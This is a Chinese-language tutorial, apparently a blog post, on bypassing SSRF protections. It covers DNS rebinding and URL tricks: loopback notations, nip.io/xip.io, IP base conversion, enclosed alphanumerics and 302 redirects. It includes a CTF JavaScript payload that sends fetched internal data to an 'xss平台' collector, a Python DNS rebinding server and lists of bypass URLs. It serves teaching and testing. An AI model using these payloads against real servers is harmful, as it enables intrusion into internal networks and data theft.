





## 0x01 DNS重绑定(DNS Rebinding)

通常我们通过域名访问应用的流程是：浏览器向DNS服务器发送请求，DNS服务器将请求的域名转换为ip地址，然后向对应的IP地址请求资源，最后回显给用户。

在访问DNS后请求方会缓存域名和IP的对应关系，而缓存时间就是由DNS服务器设置的TTL值决定。

当用户第一次访问，解析域名获取一个IP地址；然后，域名持有者修改通过某种方式对应的IP地址；用户再次请求该域名，就会获取一个新的IP地址，对于浏览器来说前后2次访问是同一域名，所以认为是安全的，这就可导致绕过同源策略和SSRF限制。下面介绍3种常见的DNS从绑定方法。

### 1.1 TTL=0的A记录

国内的域名厂商基本都不可以设置TTL为0，某些国外的域名才可以设置TTL=0，这方法只适用于前后两次请求存在一定有时间间隔或时间可控的情况。

举个CTF例子，你能向服务器提交一个URL,并且服务器会访问你提交的url。然后flag藏在服务器的本身的`http://127.0.0.1/secret`上。只能本地访问。

但是这里你提交你能控制的页面`www.x.com/index.php`，但是由于同源策略的原因你没办法去获取服务器上的`http://127.0.0.1/secret`。 但是通过`dns rebinding`就可以了。 比如你的页面如下：

```html
<script src=http://*********/static/jquery.min.js ></script>
<script>

setTimeout("POST()",90000)

function POST(){
    alert();
    $.ajax({
    url:"http://www.x.com/secret",
    type:"GET",
    success: function(data){
        $.post("http://xss平台",{'a':data})}
        }
    );
}

</script>
```

整个过程如下：

1. 你提交的是`www.x.com/index.php`，内容如上述代码
2. 设置你的域名的TTL=0，提交之后服务器会请求dns的域名与ip的关系然后找到你的这个页面，然后开始执行js。
3. 执行的时候先延迟90s，利用这延迟的90s，去修改你域名的A记录绑定到127.0.0.1上
4. 然后js延迟结束之后之后又会请求`http://www.x.com/secret`，由于你之前设置的TTL=0，所以又会重新向dns服务器请求一次ip。得到ip=127.0.0.1，而整个过程访问的都是同一域名，所以浏览器认为是安全的。就会成功去访问`http://127.0.0.1/secret`，从而绕过同源策略

### 1.2 两条A记录

域名解析配置2条A记录，一条为外网的VPS IP，一条为内网IP，就[33c3-CTF list0r](http://www.bendawang.site/2017/01/05/33c3-CTF-web-WriteUp/)这题而言，服务器会向DNS服务器连续访问2次请求，第一次判断解析后的IP是否在黑名单IP(本地IP)中，第二次就直接访问域名，所以需要第一次解析为外网地址，第二次解析为127.0.0.1，这种情况就可以采用此方法。DNS服务器绑定2条记录的解析是随机的，所以成功率只有1/4。



这种方法推荐使用[ceye.io](http://ceye.io/dns-rebinding)创建，在个人信息页新增DNS解析IP就可以



多nslookup下自己`abcdef.ceye.io`的子域名，比如如`nslookup r.abcdef.ceye.io`




### 1.3 NS记录+自建DNS服务器

此方法需要再我们DNS解析配置一条NS记录和一条A记录



ns记录表示域名`test.p0melo.top`这个子域名指定由`ns.p0melo.top`这个域名服务器来解析，然后a记录表示我的这个`ns.p0melo.top`的位置在ip地址`149.248.18.38`上。然后我们用python的twisted库搭建一个DNS服务器就可以了。

```python
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server

record={};

class DynamicResolver(object):

    def _doDynamicResponse(self, query):
        name = query.name.name

        if name not in record or record[name]<1:
            ip="149.248.18.38"
        else:
            ip="127.0.0.1"

        if name not in record:
            record[name]=0
        record[name]+=1

        print name+" ===> "+ip

        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional

    def query(self, query, timeout=None):
        return defer.succeed(self._doDynamicResponse(query))

def main():
    factory = server.DNSServerFactory(
        clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]
    )

    protocol = dns.DNSDatagramProtocol(controller=factory)
    reactor.listenUDP(53, protocol)
    reactor.run()


if __name__ == '__main__':
    raise SystemExit(main())
```

我们使用`nslookup test.p0melo.top`查看解析结果，可以看到前后两次DNS解析不同



## 0x02 其他的SSRF绕过技术

再说节其他的一些ssrf绕过技术

### 2.1 @符号绕过

`http://www.baidu.com@10.10.10.10`与`http://10.10.10.10`请求是相同的

该请求得到的内容都是10.10.10.10的内容，此绕过同样在URL跳转绕过中适用。

### 2.2 点分隔符替换

在浏览器中可以使用不同的分割符号来代替域名中的`.`分割，可以使用`。`、`｡`、`．`来代替：

```html
http://www。qq。com
http://www｡qq｡com
http://www．qq．com
```

### 2.3 本地回环地址

127.0.0.1，通常被称为本地回环地址(Loopback Address)，指本机的虚拟接口，一些表示方法如下(ipv6的地址使用http访问需要加`[]`)：

```
http://127.0.0.1 
http://localhost 
http://127.255.255.254 
127.0.0.1 - 127.255.255.254 
http://127.1 
http://127.0.1 
http://0:80
```

IPV6

```
http://[::1] 
http://[::ffff:7f00:1] 
http://[::ffff:127.0.0.1] 
http://ip6-localhost
http://0--1.ipv6-literal.net
```

### 2.4 DNS解析

配置域名的DNS解析到目标地址(A、cname等)，这里有几个配置解析到任意的地址的域名：

```shell
nslookup 127.0.0.1.nip.io

nslookup owasp.org.127.0.0.1.nip.io
```

xip.io是一个开源泛域名服务。它会把如下的域名解析到特定的地址，其实和dns解析绕过一个道理。

```html
http://10.0.0.1.xip.io = 10.0.0.1
www.10.0.0.1.xip.io= 10.0.0.1
http://mysite.10.0.0.1.xip.io = 10.0.0.1
foo.http://bar.10.0.0.1.xip.io = 10.0.0.1
10.0.0.1.xip.name resolves to 10.0.0.1
www.10.0.0.2.xip.name resolves to 10.0.0.2
foo.10.0.0.3.xip.name resolves to 10.0.0.3
bar.baz.10.0.0.4.xip.name resolves to 10.0.0.4
```

### 2.5 IP的进制转换

IP地址是一个32位的二进制数，通常被分割为4个8位二进制数。通常用“点分十进制”表示成（a.b.c.d）的形式，所以IP地址的每一段可以用其他进制来转换。 [IPFuscator](https://github.com/vysecurity/IPFuscator) 工具可实现IP地址的进制转换，包括了八进制、十进制、十六进制、混合进制。在这个工具的基础上添加了IPV6的转换和版本输出的优化。

### 2.6 封闭式字母数字 (Enclosed Alphanumerics)字符

一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 `ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ` 和 `example.com` 等同。利用这种方式，可以用 `① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩` 等字符绕过内网限制。

```
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### 2.7 利用网址缩短

网上有很多将网址转换未短网址的网站。

- https://www.985.so/

- https://www.urlc.cn/

### 2.8 利用30X重定向

可以使用重定向来让服务器访问目标地址，可用于重定向的HTTP状态码：300、301、302、303、305、307、308。

需要一个vps，把302转换的代码部署到vps上，然后去访问，就可跳转到内网中

服务端代码如下：

```php
<?php 
header("Location: http://192.168.1.10");
exit(); 
?>
```

## **0x03 参考**

[SSRF防御与绕过](https://mp.weixin.qq.com/s/VvXCTNZhfknKNlcUdMzGBA)

[关于DNS重绑定总结](http://www.bendawang.site/2017/05/31/%E5%85%B3%E4%BA%8EDNS-rebinding%E7%9A%84%E6%80%BB%E7%BB%93/)
